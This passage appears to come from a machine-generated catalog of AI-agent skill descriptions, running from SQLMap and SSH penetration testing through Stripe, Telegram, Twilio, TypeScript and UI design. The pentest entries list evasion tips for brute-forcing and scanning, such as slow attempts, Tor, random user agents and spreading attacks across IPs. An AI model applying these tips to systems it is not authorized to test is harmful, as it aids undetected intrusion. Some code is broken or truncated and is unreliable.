This skill should be used when the user asks to "automate SQL injection testing," "enumerate database structure," "extract database credentials using sqlmap," "dump tables and columns from a vulnerable database," or "perform automated database penetration testing." It provides comprehensive guidance for using SQLMap to detect and exploit SQL injection vulnerabilities.

### Purpose
Provide systematic methodologies for automated SQL injection detection and exploitation using SQLMap. This skill covers database enumeration, table and column discovery, data extraction, multiple target specification methods, and advanced exploitation techniques for MySQL, PostgreSQL, MSSQL, Oracle, and other database management systems.

### Behavior & Constraints
### Operational Boundaries
- Requires valid injectable parameter in target URL
- Network connectivity to target database server required
- Large database dumps may take significant time
- Some WAF/IPS systems may block SQLMap traffic
- Time-based attacks significantly slower than error-based

### Performance Considerations
- Use `--threads` to speed up enumeration (default: 1)
- Limit dumps with `--start` and `--stop` for large tables
- Use `--technique` to specify faster injection method if known

### Legal Requirements
- Only test systems with explicit written authorization
- Google dork attacks against unknown sites are illegal
- Document all testing activities and findings
- Respect scope limitations defined in engagement rules

### Detection Risk
- SQLMap generates significant log entries
- Use `--random-agent` to vary User-Agent header
- Consider `--delay` to avoid triggering rate limits
- Proxy through Tor with `--tor` for anonymity (authorized tests only)

---

## SSH Penetration Testing
- **ID**: `ssh-penetration-testing`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "pentest SSH services", "enumerate SSH configurations", "brute force SSH credentials", "exploit SSH vulnerabilities", "perform SSH tunneling", or "audit SSH security". It provides comprehensive SSH penetration testing methodologies and techniques.

### Purpose
Conduct comprehensive SSH security assessments including enumeration, credential attacks, vulnerability exploitation, tunneling techniques, and post-exploitation activities. This skill covers the complete methodology for testing SSH service security.

### Behavior & Constraints
### Legal Considerations
- Always obtain written authorization
- Brute-forcing may violate ToS
- Document all testing activities

### Technical Limitations
- Rate limiting may block attacks
- Fail2ban or similar may ban IPs
- Key-based auth prevents password attacks
- Two-factor authentication adds complexity

### Evasion Techniques
- Use slow brute-force: `-t 1 -w 5`
- Distribute attacks across IPs
- Use timing-based enumeration carefully
- Respect lockout thresholds

---

## stripe-integration
- **ID**: `stripe-integration`
- **Confidence**: `0.5`

### Description
"Get paid from day one. Payments, subscriptions, billing portal, webhooks, metered billing, Stripe Connect. The complete guide to implementing Stripe correctly, including all the edge cases that will bite you at 3am.  This isn't just API calls - it's the full payment system: handling failures, managing subscriptions, dealing with dunning, and keeping revenue flowing. Use when: stripe, payments, subscription, billing, checkout."

---

## subagent-driven-development
- **ID**: `subagent-driven-development`
- **Confidence**: `1.0`

### Description
Use when executing implementation plans with independent tasks in the current session

### When to Use


**vs. Executing Plans (parallel session):**
- Same session (no context switch)
- Fresh subagent per task (no context pollution)
- Two-stage review after each task: spec compliance first, then code quality
- Faster iteration (no human-in-loop between tasks)

---

## systematic-debugging
- **ID**: `systematic-debugging`
- **Confidence**: `1.0`

### Description
Use when encountering any bug, test failure, or unexpected behavior, before proposing fixes

### When to Use
Use for ANY technical issue:
- Test failures
- Bugs in production
- Unexpected behavior
- Performance problems
- Build failures
- Integration issues

**Use this ESPECIALLY when:**
- Under time pressure (emergencies make guessing tempting)
- "Just one quick fix" seems obvious
- You've already tried multiple fixes
- Previous fix didn't work
- You don't fully understand the issue

**Don't skip when:**
- Issue seems simple (simple bugs have root causes too)
- You're in a hurry (rushing guarantees rework)
- Manager wants it fixed NOW (systematic is faster than thrashing)

---

## tailwind-patterns
- **ID**: `tailwind-patterns`
- **Confidence**: `1.0`

### Description
Tailwind CSS v4 principles. CSS-first configuration, container queries, modern patterns, design token architecture.

### When to Use
### Breakpoint vs Container

| Type | Responds To |
|------|-------------|
| **Breakpoint** (`md:`) | Viewport width |
| **Container** (`@container`) | Parent element width |

### Container Query Usage

| Pattern | Classes |
|---------|---------|
| Define container | `@container` on parent |
| Container breakpoint | `@sm:`, `@md:`, `@lg:` on children |
| Named containers | `@container/card` for specificity |

### When to Use

| Scenario | Use |
|----------|-----|
| Page-level layouts | Viewport breakpoints |
| Component-level responsive | Container queries |
| Reusable components | Container queries (context-independent) |

---

---

## tavily-web
- **ID**: `tavily-web`
- **Confidence**: `1.0`

### Description
Web search, content extraction, crawling, and research capabilities using Tavily API

### When to Use
- When you need to search the web for current information
- When extracting content from URLs
- When crawling websites

---

## tdd-workflow
- **ID**: `tdd-workflow`
- **Confidence**: `1.0`

### Description
Test-Driven Development workflow principles. RED-GREEN-REFACTOR cycle.

### When to Use
| Scenario | TDD Value |
|----------|-----------|
| New feature | High |
| Bug fix | High (write test first) |
| Complex logic | High |
| Exploratory | Low (spike, then TDD) |
| UI layout | Low |

---

---

## telegram-bot-builder
- **ID**: `telegram-bot-builder`
- **Confidence**: `1.0`

### Description
"Expert in building Telegram bots that solve real problems - from simple automation to complex AI-powered bots. Covers bot architecture, the Telegram Bot API, user experience, monetization strategies, and scaling bots to thousands of users. Use when: telegram bot, bot api, telegram automation, chat bot telegram, tg bot."

### When to Use
### Bot Architecture

Structure for maintainable Telegram bots

**When to use**: When starting a new bot project

```python

### When to Use
### Stack Options
| Language | Library | Best For |
|----------|---------|----------|
| Node.js | telegraf | Most projects |
| Node.js | grammY | TypeScript, modern |
| Python | python-telegram-bot | Quick prototypes |
| Python | aiogram | Async, scalable |

### Basic Telegraf Setup
```javascript
import { Telegraf } from 'telegraf';

const bot = new Telegraf(process.env.BOT_TOKEN);

// Command handlers
bot.start((ctx) => ctx.reply('Welcome!'));
bot.help((ctx) => ctx.reply('How can I help?'));

// Text handler
bot.on('text', (ctx) => {
  ctx.reply(`You said: ${ctx.message.text}`);
});

// Launch
bot.launch();

// Graceful shutdown
process.once('SIGINT', () => bot.stop('SIGINT'));
process.once('SIGTERM', () => bot.stop('SIGTERM'));
```

### Project Structure
```
telegram-bot/
├── src/
│   ├── bot.js           # Bot initialization
│   ├── commands/        # Command handlers
│   │   ├── start.js
│   │   ├── help.js
│   │   └── settings.js
│   ├── handlers/        # Message handlers
│   ├── keyboards/       # Inline keyboards
│   ├── middleware/      # Auth, logging
│   └── services/        # Business logic
├── .env
└── package.json
```
```

### Inline Keyboards

Interactive button interfaces

**When to use**: When building interactive bot flows

```python

### When to Use
### Basic Keyboard
```javascript
import { Markup } from 'telegraf';

bot.command('menu', (ctx) => {
  ctx.reply('Choose an option:', Markup.inlineKeyboard([
    [Markup.button.callback('Option 1', 'opt_1')],
    [Markup.button.callback('Option 2', 'opt_2')],
    [
      Markup.button.callback('Yes', 'yes'),
      Markup.button.callback('No', 'no'),
    ],
  ]));
});

// Handle button clicks
bot.action('opt_1', (ctx) => {
  ctx.answerCbQuery('You chose Option 1');
  ctx.editMessageText('You selected Option 1');
});
```

### Keyboard Patterns
| Pattern | Use Case |
|---------|----------|
| Single column | Simple menus |
| Multi column | Yes/No, pagination |
| Grid | Category selection |
| URL buttons | Links, payments |

### Pagination
```javascript
function getPaginatedKeyboard(items, page, perPage = 5) {
  const start = page * perPage;
  const pageItems = items.slice(start, start + perPage);

  const buttons = pageItems.map(item =>
    [Markup.button.callback(item.name, `item_${item.id}`)]
  );

  const nav = [];
  if (page > 0) nav.push(Markup.button.callback('◀️', `page_${page-1}`));
  if (start + perPage < items.length) nav.push(Markup.button.callback('▶️', `page_${page+1}`));

  return Markup.inlineKeyboard([...buttons, nav]);
}
```
```

### Bot Monetization

Making money from Telegram bots

**When to use**: When planning bot revenue

```javascript

### Activation
### Revenue Models
| Model | Example | Complexity |
|-------|---------|------------|
| Freemium | Free basic, paid premium | Medium |
| Subscription | Monthly access | Medium |
| Per-use | Pay per action | Low |
| Ads | Sponsored messages | Low |
| Affiliate | Product recommendations | Low |

### Telegram Payments
```javascript
// Create invoice
bot.command('buy', (ctx) => {
  ctx.replyWithInvoice({
    title: 'Premium Access',
    description: 'Unlock all features',
    payload: 'premium_monthly',
    provider_token: process.env.PAYMENT_TOKEN,
    currency: 'USD',
    prices: [{ label: 'Premium', amount: 999 }], // $9.99
  });
});

// Handle successful payment
bot.on('successful_payment', (ctx) => {
  const payment = ctx.message.successful_payment;
  // Activate premium for user
  await activatePremium(ctx.from.id);
  ctx.reply('🎉 Premium activated!');
});
```

### Freemium Strategy
```
Free tier:
- 10 uses per day
- Basic features
- Ads shown

Premium ($5/month):
- Unlimited uses
- Advanced features
- No ads
- Priority support
```

### Usage Limits
```javascript
async function checkUsage(userId) {
  const usage = await getUsage(userId);
  const isPremium = await checkPremium(userId);

  if (!isPremium && usage >= 10) {
    return { allowed: false, message: 'Daily limit reached. Upgrade?' };
  }
  return { allowed: true };
}
```
```

---

## telegram-mini-app
- **ID**: `telegram-mini-app`
- **Confidence**: `1.0`

### Description
"Expert in building Telegram Mini Apps (TWA) - web apps that run inside Telegram with native-like experience. Covers the TON ecosystem, Telegram Web App API, payments, user authentication, and building viral mini apps that monetize. Use when: telegram mini app, TWA, telegram web app, TON app, mini app."

### When to Use
### Mini App Setup

Getting started with Telegram Mini Apps

**When to use**: When starting a new Mini App

```javascript

### When to Use
### Basic Structure
```html
<!DOCTYPE html>
<html>
<head>
  <meta name="viewport" content="width=device-width, initial-scale=1.0">
  <script src="https://telegram.org/js/telegram-web-app.js"></script>
</head>
<body>
  <script>
    const tg = window.Telegram.WebApp;
    tg.ready();
    tg.expand();

    // User data
    const user = tg.initDataUnsafe.user;
    console.log(user.first_name, user.id);
  </script>
</body>
</html>
```

### React Setup
```jsx
// hooks/useTelegram.js
export function useTelegram() {
  const tg = window.Telegram?.WebApp;

  return {
    tg,
    user: tg?.initDataUnsafe?.user,
    queryId: tg?.initDataUnsafe?.query_id,
    expand: () => tg?.expand(),
    close: () => tg?.close(),
    ready: () => tg?.ready(),
  };
}

// App.jsx
function App() {
  const { tg, user, expand, ready } = useTelegram();

  useEffect(() => {
    ready();
    expand();
  }, []);

  return <div>Hello, {user?.first_name}</div>;
}
```

### Bot Integration
```javascript
// Bot sends Mini App
bot.command('app', (ctx) => {
  ctx.reply('Open the app:', {
    reply_markup: {
      inline_keyboard: [[
        { text: '🚀 Open App', web_app: { url: 'https://your-app.com' } }
      ]]
    }
  });
});
```
```

### TON Connect Integration

Wallet connection for TON blockchain

**When to use**: When building Web3 Mini Apps

```python

### When to Use
### Setup
```bash
npm install @tonconnect/ui-react
```

### React Integration
```jsx
import { TonConnectUIProvider, TonConnectButton } from '@tonconnect/ui-react';

// Wrap app
function App() {
  return (
    <TonConnectUIProvider manifestUrl="https://your-app.com/tonconnect-manifest.json">
      <MainApp />
    </TonConnectUIProvider>
  );
}

// Use in components
function WalletSection() {
  return (
    <TonConnectButton />
  );
}
```

### Manifest File
```json
{
  "url": "https://your-app.com",
  "name": "Your Mini App",
  "iconUrl": "https://your-app.com/icon.png"
}
```

### Send TON Transaction
```jsx
import { useTonConnectUI } from '@tonconnect/ui-react';

function PaymentButton({ amount, to }) {
  const [tonConnectUI] = useTonConnectUI();

  const handlePay = async () => {
    const transaction = {
      validUntil: Math.floor(Date.now() / 1000) + 60,
      messages: [{
        address: to,
        amount: (amount * 1e9).toString(), // TON to nanoton
      }]
    };

    await tonConnectUI.sendTransaction(transaction);
  };

  return <button onClick={handlePay}>Pay {amount} TON</button>;
}
```
```

### Mini App Monetization

Making money from Mini Apps

**When to use**: When planning Mini App revenue

```javascript

---

## test-driven-development
- **ID**: `test-driven-development`
- **Confidence**: `1.0`

### Description
Use when implementing any feature or bugfix, before writing implementation code

### When to Use
**Always:**
- New features
- Bug fixes
- Refactoring
- Behavior changes

**Exceptions (ask your human partner):**
- Throwaway prototypes
- Generated code
- Configuration files

Thinking "skip TDD just this once"? Stop. That's rationalization.

---

## test-fixing
- **ID**: `test-fixing`
- **Confidence**: `1.0`

### Description
Run tests and systematically fix all failing tests using smart error grouping. Use when user asks to fix failing tests, mentions test failures, runs test suite and failures occur, or requests to make tests pass.

### When to Use
- Explicitly asks to fix tests ("fix these tests", "make tests pass")
- Reports test failures ("tests are failing", "test suite is broken")
- Completes implementation and wants tests passing
- Mentions CI/CD failures due to tests

---

## testing-patterns
- **ID**: `testing-patterns`
- **Confidence**: `0.5`

### Description
Jest testing patterns, factory functions, mocking strategies, and TDD workflow. Use when writing unit tests, creating test factories, or following TDD red-green-refactor cycle.

---

## theme-factory
- **ID**: `theme-factory`
- **Confidence**: `1.0`

### Description
Toolkit for styling artifacts with a theme. These artifacts can be slides, docs, reportings, HTML landing pages, etc. There are 10 pre-set themes with colors/fonts that you can apply to any artifact that has been creating, or can generate a new theme on-the-fly.

### Purpose
To apply consistent, professional styling to presentation slide decks, use this skill. Each theme includes:
- A cohesive color palette with hex codes
- Complementary font pairings for headers and body text
- A distinct visual identity suitable for different contexts and audiences

---

## Top 100 Web Vulnerabilities Reference
- **ID**: `top-web-vulnerabilities`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "identify web application vulnerabilities", "explain common security flaws", "understand vulnerability categories", "learn about injection attacks", "review access control weaknesses", "analyze API security issues", "assess security misconfigurations", "understand client-side vulnerabilities", "examine mobile and IoT security flaws", or "reference the OWASP-aligned vulnerability taxonomy". Use this skill to provide comprehensive vulnerability definitions, root causes, impacts, and mitigation strategies across all major web security categories.

### Purpose
Provide a comprehensive, structured reference for the 100 most critical web application vulnerabilities organized by category. This skill enables systematic vulnerability identification, impact assessment, and remediation guidance across the full spectrum of web security threats. Content organized into 15 major vulnerability categories aligned with industry standards and real-world attack patterns.

### Behavior & Constraints
- Vulnerability definitions represent common patterns; specific implementations vary
- Mitigations must be adapted to technology stack and architecture
- New vulnerabilities emerge continuously; reference should be updated
- Some vulnerabilities overlap across categories (e.g., IDOR appears in multiple contexts)
- Effectiveness of mitigations depends on proper implementation
- Automated scanners cannot detect all vulnerability types (especially business logic)

---

---

## trigger-dev
- **ID**: `trigger-dev`
- **Confidence**: `0.5`

### Description
"Trigger.dev expert for background jobs, AI workflows, and reliable async execution with excellent developer experience and TypeScript-first design. Use when: trigger.dev, trigger dev, background task, ai background job, long running task."

---

## twilio-communications
- **ID**: `twilio-communications`
- **Confidence**: `1.0`

### Description
"Build communication features with Twilio: SMS messaging, voice calls, WhatsApp Business API, and user verification (2FA). Covers the full spectrum from simple notifications to complex IVR systems and multi-channel authentication. Critical focus on compliance, rate limits, and error handling. Use when: twilio, send SMS, text message, voice call, phone verification."

### When to Use
### SMS Sending Pattern

Basic pattern for sending SMS messages with Twilio.
Handles the fundamentals: phone number formatting, message delivery,
and delivery status callbacks.

Key considerations:
- Phone numbers must be in E.164 format (+1234567890)
- Default rate limit: 80 messages per second (MPS)
- Messages over 160 characters are split (and cost more)
- Carrier filtering can block messages (especially to US numbers)


**When to use**: ['Sending notifications to users', 'Transactional messages (order confirmations, shipping)', 'Alerts and reminders']

```python
from twilio.rest import Client
from twilio.base.exceptions import TwilioRestException
import os
import re

class TwilioSMS:
    """
    SMS sending with proper error handling and validation.
    """

    def __init__(self):
        self.client = Client(
            os.environ["TWILIO_ACCOUNT_SID"],
            os.environ["TWILIO_AUTH_TOKEN"]
        )
        self.from_number = os.environ["TWILIO_PHONE_NUMBER"]

    def validate_e164(self, phone: str) -> bool:
        """Validate phone number is in E.164 format."""
        pattern = r'^\+[1-9]\d{1,14}$'
        return bool(re.match(pattern, phone))

    def send_sms(
        self,
        to: str,
        body: str,
        status_callback: str = None
    ) -> dict:
        """
        Send an SMS message.

        Args:
            to: Recipient phone number in E.164 format
            body: Message text (160 chars = 1 segment)
            status_callback: URL for delivery status webhooks

        Returns:
            Message SID and status
        """
        # Validate phone number format
        if not self.validate_e164(to):
            return {
                "success": False,
                "error": "Phone number must be in E.164 format (+1234567890)"
            }

        # Check message length (warn about segmentation)
        segment_count = (len(body) + 159) // 160
        if segment_count > 1:
            print(f"Warning: Message will be sent as {segment_count} segments")

        try:
            message = self.client.messages.create(
                to=to,
                from_=self.from_number,
                body=body,
                status_callback=status_callback
            )

            return {
                "success": True,
                "message_sid": message.sid,
                "status": message.status,
                "segments": segment_count
            }

        except TwilioRestException as e:
            return self._handle_error(e)

    def _handle_error(self, error: Twilio
```

### Twilio Verify Pattern (2FA/OTP)

Use Twilio Verify for phone number verification and 2FA.
Handles code generation, delivery, rate limiting, and fraud prevention.

Key benefits over DIY OTP:
- Twilio manages code generation and expiration
- Built-in fraud prevention (saved customers $82M+ blocking 747M attempts)
- Handles rate limiting automatically
- Multi-channel: SMS, Voice, Email, Push, WhatsApp

Google found SMS 2FA blocks "100% of automated bots, 96% of bulk
phishing attacks, and 76% of targeted attacks."


**When to use**: ['User phone number verification at signup', 'Two-factor authentication (2FA)', 'Password reset verification', 'High-value transaction confirmation']

```python
from twilio.rest import Client
from twilio.base.exceptions import TwilioRestException
import os
from enum import Enum
from typing import Optional

class VerifyChannel(Enum):
    SMS = "sms"
    CALL = "call"
    EMAIL = "email"
    WHATSAPP = "whatsapp"

class TwilioVerify:
    """
    Phone verification with Twilio Verify.
    Never store OTP codes - Twilio handles it.
    """

    def __init__(self, verify_service_sid: str = None):
        self.client = Client(
            os.environ["TWILIO_ACCOUNT_SID"],
            os.environ["TWILIO_AUTH_TOKEN"]
        )
        # Create a Verify Service in Twilio Console first
        self.service_sid = verify_service_sid or os.environ["TWILIO_VERIFY_SID"]

    def send_verification(
        self,
        to: str,
        channel: VerifyChannel = VerifyChannel.SMS,
        locale: str = "en"
    ) -> dict:
        """
        Send verification code to phone/email.

        Args:
            to: Phone number (E.164) or email
            channel: SMS, call, email, or whatsapp
            locale: Language code for message

        Returns:
            Verification status
        """
        try:
            verification = self.client.verify \
                .v2 \
                .services(self.service_sid) \
                .verifications \
                .create(
                    to=to,
                    channel=channel.value,
                    locale=locale
                )

            return {
                "success": True,
                "status": verification.status,  # "pending"
                "channel": channel.value,
                "valid": verification.valid
            }

        except TwilioRestException as e:
            return self._handle_verify_error(e)

    def check_verification(self, to: str, code: str) -> dict:
        """
        Check if verification code is correct.

        Args:
            to: Phone number or email that received code
            code: The code entered by user

        R
```

### TwiML IVR Pattern

Build Interactive Voice Response (IVR) systems using TwiML.
TwiML (Twilio Markup Language) is XML that tells Twilio what to do
when receiving calls.

Core TwiML verbs:
- <Say>: Text-to-speech
- <Play>: Play audio file
- <Gather>: Collect keypad/speech input
- <Dial>: Connect to another number
- <Record>: Record caller's voice
- <Redirect>: Move to another TwiML endpoint

Key insight: Twilio makes HTTP request to your webhook, you return
TwiML, Twilio executes it. Stateless, so use URL params or sessions.


**When to use**: ['Phone menu systems (press 1 for sales...)', 'Automated customer support', 'Appointment reminders with confirmation', 'Voicemail systems']

```python
from flask import Flask, request, Response
from twilio.twiml.voice_response import VoiceResponse, Gather
from twilio.request_validator import RequestValidator
import os

app = Flask(__name__)

def validate_twilio_request(f):
    """Decorator to validate requests are from Twilio."""
    def wrapper(*args, **kwargs):
        validator = RequestValidator(os.environ["TWILIO_AUTH_TOKEN"])

        # Get request details
        url = request.url
        params = request.form.to_dict()
        signature = request.headers.get("X-Twilio-Signature", "")

        if not validator.validate(url, params, signature):
            return "Invalid request", 403

        return f(*args, **kwargs)
    wrapper.__name__ = f.__name__
    return wrapper

@app.route("/voice/incoming", methods=["POST"])
@validate_twilio_request
def incoming_call():
    """Handle incoming call with IVR menu."""
    response = VoiceResponse()

    # Gather digits with timeout
    gather = Gather(
        num_digits=1,
        action="/voice/menu-selection",
        method="POST",
        timeout=5
    )
    gather.say(
        "Welcome to Acme Corp. "
        "Press 1 for sales. "
        "Press 2 for support. "
        "Press 3 to leave a message."
    )
    response.append(gather)

    # If no input, repeat
    response.redirect("/voice/incoming")

    return Response(str(response), mimetype="text/xml")

@app.route("/voice/menu-selection", methods=["POST"])
@validate_twilio_request
def menu_selection():
    """Route based on menu selection."""
    response = VoiceResponse()
    digit = request.form.get("Digits", "")

    if digit == "1":
        # Transfer to sales
        response.say("Connecting you to sales.")
        response.dial(os.environ["SALES_PHONE"])

    elif digit == "2":
        # Transfer to support
        response.say("Connecting you to support.")
        response.dial(os.environ["SUPPORT_PHONE"])

    elif digit == "3":
        # Voicemail
        response.say("Please leave a message after 
```

---

## typescript-expert
- **ID**: `typescript-expert`
- **Confidence**: `1.0`

### Description
>-

### Behavior & Constraints
### Type-Level Programming Patterns

**Branded Types for Domain Modeling**
```typescript
// Create nominal types to prevent primitive obsession
type Brand<K, T> = K & { __brand: T };
type UserId = Brand<string, 'UserId'>;
type OrderId = Brand<string, 'OrderId'>;

// Prevents accidental mixing of domain primitives
function processOrder(orderId: OrderId, userId: UserId) { }
```
- Use for: Critical domain primitives, API boundaries, currency/units
- Resource: https://egghead.io/blog/using-branded-types-in-typescript

**Advanced Conditional Types**
```typescript
// Recursive type manipulation
type DeepReadonly<T> = T extends (...args: any[]) => any 
  ? T 
  : T extends object 
    ? { readonly [K in keyof T]: DeepReadonly<T[K]> }
    : T;

// Template literal type magic
type PropEventSource<Type> = {
  on<Key extends string & keyof Type>
    (eventName: `${Key}Changed`, callback: (newValue: Type[Key]) => void): void;
};
```
- Use for: Library APIs, type-safe event systems, compile-time validation
- Watch for: Type instantiation depth errors (limit recursion to 10 levels)

**Type Inference Techniques**
```typescript
// Use 'satisfies' for constraint validation (TS 5.0+)
const config = {
  api: "https://api.example.com",
  timeout: 5000
} satisfies Record<string, string | number>;
// Preserves literal types while ensuring constraints

// Const assertions for maximum inference
const routes = ['/home', '/about', '/contact'] as const;
type Route = typeof routes[number]; // '/home' | '/about' | '/contact'
```

### Performance Optimization Strategies

**Type Checking Performance**
```bash
# Diagnose slow type checking
npx tsc --extendedDiagnostics --incremental false | grep -E "Check time|Files:|Lines:|Nodes:"

# Common fixes for "Type instantiation is excessively deep"
# 1. Replace type intersections with interfaces
# 2. Split large union types (>100 members)
# 3. Avoid circular generic constraints
# 4. Use type aliases to break recursion
```

**Build Performance Patterns**
- Enable `skipLibCheck: true` for library type checking only (often significantly improves performance on large projects, but avoid masking app typing issues)
- Use `incremental: true` with `.tsbuildinfo` cache
- Configure `include`/`exclude` precisely
- For monorepos: Use project references with `composite: true`

### Complex Error Patterns

**"The inferred type of X cannot be named"**
- Cause: Missing type export or circular dependency
- Fix priority:
  1. Export the required type explicitly
  2. Use `ReturnType<typeof function>` helper
  3. Break circular dependencies with type-only imports
- Resource: https://github.com/microsoft/TypeScript/issues/47663

**Missing type declarations**
- Quick fix with ambient declarations:
```typescript
// types/ambient.d.ts
declare module 'some-untyped-package' {
  const value: unknown;
  export default value;
  export = value; // if CJS interop is needed
}
```
- For more details: [Declaration Files Guide](https://www.typescriptlang.org/docs/handbook/declaration-files/introduction.html)

**"Excessive stack depth comparing types"**
- Cause: Circular or deeply recursive types
- Fix priority:
  1. Limit recursion depth with conditional types
  2. Use `interface` extends instead of type intersection
  3. Simplify generic constraints
```typescript
// Bad: Infinite recursion
type InfiniteArray<T> = T | InfiniteArray<T>[];

// Good: Limited recursion
type NestedArray<T, D extends number = 5> = 
  D extends 0 ? T : T | NestedArray<T, [-1, 0, 1, 2, 3, 4][D]>[];
```

**Module Resolution Mysteries**
- "Cannot find module" despite file existing:
  1. Check `moduleResolution` matches your bundler
  2. Verify `baseUrl` and `paths` alignment
  3. For monorepos: Ensure workspace protocol (workspace:*)
  4. Try clearing cache: `rm -rf node_modules/.cache .tsbuildinfo`

**Path Mapping at Runtime**
- TypeScript paths only work at compile time, not runtime
- Node.js runtime solutions:
  - ts-node: Use `ts-node -r tsconfig-paths/register`
  - Node ESM: Use loader alternatives or avoid TS paths at runtime
  - Production: Pre-compile with resolved paths

### Migration Expertise

**JavaScript to TypeScript Migration**
```bash
# Incremental migration strategy
# 1. Enable allowJs and checkJs (merge into existing tsconfig.json):
# Add to existing tsconfig.json:
# {
#   "compilerOptions": {
#     "allowJs": true,
#     "checkJs": true
#   }
# }

# 2. Rename files gradually (.js → .ts)
# 3. Add types file by file using AI assistance
# 4. Enable strict mode features one by one

# Automated helpers (if installed/needed)
command -v ts-migrate >/dev/null 2>&1 && npx ts-migrate migrate . --sources 'src/**/*.js'
command -v typesync >/dev/null 2>&1 && npx typesync  # Install missing @types packages
```

**Tool Migration Decisions**

| From | To | When | Migration Effort |
|------|-----|------|-----------------|
| ESLint + Prettier | Biome | Need much faster speed, okay with fewer rules | Low (1 day) |
| TSC for linting | Type-check only | Have 100+ files, need faster feedback | Medium (2-3 days) |
| Lerna | Nx/Turborepo | Need caching, parallel builds | High (1 week) |
| CJS | ESM | Node 18+, modern tooling | High (varies) |

### Monorepo Management

**Nx vs Turborepo Decision Matrix**
- Choose **Turborepo** if: Simple structure, need speed, <20 packages
- Choose **Nx** if: Complex dependencies, need visualization, plugins required
- Performance: Nx often performs better on large monorepos (>50 packages)

**TypeScript Monorepo Configuration**
```json
// Root tsconfig.json
{
  "references": [
    { "path": "./packages/core" },
    { "path": "./packages/ui" },
    { "path": "./apps/web" }
  ],
  "compilerOptions": {
    "composite": true,
    "declaration": true,
    "declarationMap": true
  }
}
```

When reviewing TypeScript/JavaScript code, focus on these domain-specific aspects:

### Type Safety
- [ ] No implicit `any` types (use `unknown` or proper types)
- [ ] Strict null checks enabled and properly handled
- [ ] Type assertions (`as`) justified and minimal
- [ ] Generic constraints properly defined
- [ ] Discriminated unions for error handling
- [ ] Return types explicitly declared for public APIs

### TypeScript Best Practices
- [ ] Prefer `interface` over `type` for object shapes (better error messages)
- [ ] Use const assertions for literal types
- [ ] Leverage type guards and predicates
- [ ] Avoid type gymnastics when simpler solution exists
- [ ] Template literal types used appropriately
- [ ] Branded types for domain primitives

### Performance Considerations
- [ ] Type complexity doesn't cause slow compilation
- [ ] No excessive type instantiation depth
- [ ] Avoid complex mapped types in hot paths
- [ ] Use `skipLibCheck: true` in tsconfig
- [ ] Project references configured for monorepos

### Module System
- [ ] Consistent import/export patterns
- [ ] No circular dependencies
- [ ] Proper use of barrel exports (avoid over-bundling)
- [ ] ESM/CJS compatibility handled correctly
- [ ] Dynamic imports for code splitting

### Error Handling Patterns
- [ ] Result types or discriminated unions for errors
- [ ] Custom error classes with proper inheritance
- [ ] Type-safe error boundaries
- [ ] Exhaustive switch cases with `never` type

### Code Organization
- [ ] Types co-located with implementation
- [ ] Shared types in dedicated modules
- [ ] Avoid global type augmentation when possible
- [ ] Proper use of declaration files (.d.ts)

---

## ui-ux-pro-max
- **ID**: `ui-ux-pro-max`
- **Confidence**: `1.0`

### Description
"UI/UX design intelligence. 50 styles, 21 palettes, 50 font pairings, 20 charts, 9 stacks (React, Next.js, Vue, Svelte, SwiftUI, React Native, Flutter, Tailwind, shadcn/ui). Actions: plan, build, create, design, implement, review, fix, improve, optimize, enhance, refactor, check UI/UX code. Projects: website, landing page, dashboard, admin panel, e-commerce, SaaS, portfolio, blog, mobile app, .html, .tsx, .vue, .svelte. Elements: button, modal, navbar, sidebar, card, table, form, chart. Styles: glassmorphism, claymorphism, minimalism, brutalism, neumorphism, bento grid, dark mode, responsive, skeuomorphism, flat design. Topics: color palette, accessibility, animation, layout, typography, font pairing, spacing, hover, shadow, gradient. Integrations: shadcn/ui MCP for component search and examples."

### When to Use
When user requests UI/UX work (design, build, create, implement, review, fix, improve), follow this workflow:

### Step 1: Analyze User Requirements

Extract key information from user request:
- **Product type**: SaaS, e-commerce, portfolio, dashboard, landing page, etc.
- **Style keywords**: minimal, playful, professional, elegant, dark mode, etc.
- **Industry**: healthcare, fintech, gaming, education, etc.
- **Stack**: React, Vue, Next.js, or default to `html-tailwind`

### Step 2: Generate Design System (REQUIRED)

**Always start with `--design-system`** to get comprehensive recommendations with reasoning:

```bash
python3 .claude/skills/ui-ux-pro-max/scripts/search.py "<product_type> <industry> <keywords>" --design-system [-p "Project Name"]
```

This command:
1. Searches 5 domains in parallel (product, style, color, landing, typography)
2. Applies reasoning rules from `ui-reasoning.csv` to select best matches
3. Returns complete design system: pattern, style, colors, typography, effects
4. Includes anti-patterns to avoid

**Example:**
```bash
python3 .claude/skills/ui-ux-pro-max/scripts/search.py "beauty spa wellness service" --design-system -p "Serenity Spa"
```

### Step 3: Supplement with Detailed Searches (as needed)

After getting the design system, use domain searches to get additional details:

```bash
python3 .claude/skills/ui-ux-pro-max/scripts/search.py "<keyword>" --domain <domain> [-n <max_results>]
```

**When to use detailed searches:**

| Need | Domain | Example |
|------|--------|---------|
| More style options | `style` | `--domain style "glassmorphism dark"` |
| Chart recommendations | `chart` | `--domain chart "real-time dashboard"` |
| UX best practices | `ux` | `--domain ux "animation accessibility"` |
| Alternative fonts | `typography` | `--domain typography "elegant luxury"` |
| Landing structure | `landing` | `--domain landing "hero social-proof"` |

### Step 4: Stack Guidelines (Default: html-tailwind)

Get implementation-specific best practices. If user doesn't specify a stack, **default to `html-tailwind`**.

```bash
python3 .claude/skills/ui-ux-pro-max/scripts/search.py "<keyword>" --stack html-tailwind
```

Available stacks: `html-tailwind`, `react`, `nextjs`, `vue`, `svelte`, `swiftui`, `react-native`, `flutter`, `shadcn`

---

---

## upstash-qstash
- **ID**: `upstash-qstash`
- **Confidence**: `0.5`

### Description
"Upstash QStash expert for serverless message queues, scheduled jobs, and reliable HTTP-based task delivery without managing infrastructure. Use when: qstash, upstash queue, serverless cron, scheduled http, message queue serverless."

---

## using-git-worktrees
- **ID**: `using-git-worktrees`
- **Confidence**: `0.5`

### Description
Use when starting feature work that needs isolation from current workspace or before executing implementation plans - creates isolated git worktrees with smart directory selection and safety verification

---

## using-superpowers
- **ID**: `using-superpowers`
- **Confidence**: `0.5`

### Description
Use when starting any conversation - establishes how to find and use skills, requiring Skill tool invocation before ANY response including clarifying questions

---

## vercel-deployment
- **ID**: `vercel-deployment`
- **Confidence**: `0.5`

### Description
"Expert knowledge for deploying to Vercel with Next.js Use when: vercel, deploy, deployment, hosting, production."

---

## verification-before-completion
- **ID**: `verification-before-completion`
- **Confidence**: `0.5`

### Description
Use when about to claim work is complete, fixed, or passing, before committing or creating PRs - requires running verification commands and confirming output before making any success claims; evidence before assertions always

---

## GSD Verifier
